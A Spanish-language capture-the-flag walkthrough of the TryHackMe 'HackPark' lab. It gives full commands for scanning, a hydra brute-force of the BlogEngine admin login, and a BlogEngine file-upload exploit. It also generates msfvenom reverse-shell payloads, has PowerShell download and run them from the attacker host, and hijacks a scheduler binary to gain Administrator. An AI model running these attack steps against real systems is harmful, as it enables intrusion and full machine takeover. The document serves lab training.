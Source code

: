 # HackPark

## Scanning

```bash
sudo nmap -sS -p- --min-rate 5000 -vvv --open -Pn -n 10.10.65.121 -oG allports
nmap -sC -sV -p 80,3389 -Pn -n 10.10.65.121 -oN targeted
```

![0408130121](0408130121.png)

## 80

Existe una pagina en /Account/login.aspx?ReturnURL=/admin/

![0408140240](0408140240.png)

Usaremos hydra para sacar la contraseña, se probará con el usuario admin que es el usuario por defecto en blogengine

```bash
hydra -l admin -P /usr/share/wordlists/rockyou.txt -V 10.10.65.121 http-post-form '/Account/login.aspx?ReturnURL=/admin/:__VIEWSTATE=96wqtyMMw%2ByGDvAbjpbjmZZ%2B3iTEcRk8bDEDhs%2BgLBvn50kWyqruNVQipjhdHpq0gQqlakvET2xXrV27q6dWHOqmdRmcJyfa010SwCcc6QWAcEkZTgCQzSTY%2Fvye2ET7OgmqFOVsG8qNN3HW%2FKXBJ6Ut8iQeffwVFhK0TXeg2eSX10SD7eKDNvkF7XbDNlUTMBI7u5tmZKPiGu44%2Bscq3otARP7CMNZL%2BY7ao2pYf0D4wJlQVVHNEsmbB%2Bcgy66WvkxEGrpCLES8fntQbgFjOC%2FjpiJ7zSxe5iwndEtxGpotFSbEnfvm55y6s%2BHBfGejw61dHikt4x4ZvRlo%2BgPemEz6avsNWhKAzvY8C5AC4fIFNxtE&__EVENTVALIDATION=NcoGunaTvYWBEZN5DLfjY0ZE1Sd0Aq0oCfFBnbycegHEk3BUrMbLyKVzUoK9kqVjVyVdjQTSX6cEeoXIAU%2FNNxh6Y8dCypO7DoAxpjIkPoOhO5kpEez56r0fE6RbuzyKtsl0IV2R9DtqgEnrW2TnR0XmHODZ2g2tyvhlZvxtxXQlpDcb&ctl00%24MainContent%24LoginUser%24UserName=^USER^&ctl00%24MainContent%24LoginUser%24Password=^PASS^&ctl00%24MainContent%24LoginUser%24LoginButton=Iniciar+sesi%C3%B3n:Login failed'
```

![0408140248](0408140248.png)

## Searchsploit

```bash
# Buscamos la vulnerabilidad en searchsploit
searchsploit blogengine 3.3.6
# Lo descargamos
searchsploit -m aspx/webapps/46353.cs
```

El exploit nos indica que debemos modificar el archivo indicando nuestra IP y puerto al cual se va a conectar, ademas renombrar el archivo con el nombre de `PostView.ascx` 

![0408200825](0408200825.png)

Entramos a el siguiente enlace  con la ip del sitio web http://10.10.10.10/admin/app/editor/editpost.cshtml y usamos el *"file manager"* para agregar archivos y subimos nuestro archivo PostView.ascx|. Finalmente debemos estar escuchando con netcat con el puerto indicado en el archivo e ingresar a  http://10.10.10.10/?theme=../../App_Data/files para que se arrancar el epxloit.

![0408200839](0408200839.png)

## Cambiar a una shell de meterpreter

```bash
# Crear la shell de meterpreter
msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=10.13.13.243 LPORT=5555 -f exe -o meterpreter_shell.exe
```

Descargarlo desde la pc atacante

```bash
powershell "(New-Object System.Net.WebClient).Downloadfile('http://10.13.13.243:80/meterpreter_shell.exe','meterpreter_shell.exe')"
```

En la consola de metasploit escuchamos

```bash
msfconsole
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp 
set LHOST your-ip
set LPORT listening-port
run
```

Ejecutamos la conexion

```cmd
.\meterpreter_shell.exe
```

## Escalar privilegios con el servicio Message.exe en C:\Program Files(x86)\SystemScheduler\Message.exe

Creamos una reverse shell de nombre Message.exe así como hicimos antes

```bash
msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=10.13.13.243 LPORT=5432 -f exe -o Message.exe
```

y lo descargamos en `C:\Program Files(x86)\SystemScheduler\Message.exe`

```bash
powershell "(New-Object System.Net.WebClient).Downloadfile('http://10.13.13.243:80/Message.exe','Message.exe')"
```

Despues de unos segundos se tendrá la conexion en meterpreter y podemos usar cmd para que nos muestre el promt y ya estaríamos como Administrator a pesar de que cuando intento usar whoami no me responde. u.u

## Sin usar meterpreter

Nos quedamos con la reverse shell usando netcat. Esta vez nos pasaremos a otra shell usando el comando:

```bash
msfvenom -p windows/shell_reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=10.13.13.243 LPORT=5555 -f exe -o windows_shell.exe
```

Escuchamos con netcat usando `nc -lvp 5555`

Descargamos la reverse shell antes generado con:

```cmd
powershell "(New-Object System.Net.WebClient).Downloadfile('http://10.13.13.243:80/windows_shell.exe','windows_shell.exe')"
.\windows_shell.exe
```

## winpeas para analizar la maquina

usaremos este enlace https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/blob/master/winPEAS/winPEASbat/winPEAS.bat y lo descargamos en la maquina con 

```cmd
powershell "(New-Object System.Net.WebClient).Downloadfile('http://10.13.13.243:80/winPEAS.batx86','winPEASx86.bat')"
.\winPEAS.bat
```

